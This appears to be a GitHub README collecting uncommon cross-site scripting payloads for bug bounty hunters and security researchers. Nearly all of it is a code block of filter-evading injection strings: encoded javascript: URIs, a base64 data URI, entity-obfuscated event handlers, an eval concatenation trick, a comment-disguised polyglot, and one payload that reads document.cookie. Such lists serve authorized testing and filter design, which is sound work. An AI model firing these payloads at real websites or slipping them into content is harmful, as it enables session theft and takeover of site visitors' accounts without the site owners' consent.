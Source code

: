 # Awesome XSS Payloads and Vectors
Exotic and uncommon XSS Vectors to hit the target as quickly as possible.
THIS IS SPECIALLY FOR BUG BOUNTY HUNTERS AND SECURITY RESEARCHERS.

I REQUEST TO CONTRIBUTE TO THE PROJECT BY INCLUDING ONLY HIGHLY EXOTIC XSS VECTORS.


```
“><svg/onload=alert(document.domain)>”@x.y

<svg onload="alert(1)" <="" svg=""

<</p>iframe src=javascript:alert()//

<iframe/src=j%0aa%0av%0aa%0as%0ac%0ar%0ai%0ap%0t:prompt `1`>

%22%3e%3c%5K/onwheel=alert(1)%3emouse%20wheel%20here%3c%21--

„> <img src = x onerror = javascript: alert (1); …

onerror%3Deval%3Bthrow'%3Dalert%5Cx281%5Cx29'%3B

<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>
  '
<--`<img/src=` onerror=alert(1)> --!>
  
'';!--\"&lt;XSS&gt;=&{()}

¼script¾alert(¢XSS¢)¼/script¾

“><s”%2b”cript>alert(document.cookie)</script>

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<svg•onload=alert(1)>

<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //># //This payload is used to fool and bypass advanced xss filters by fooling as if it is comments.
```
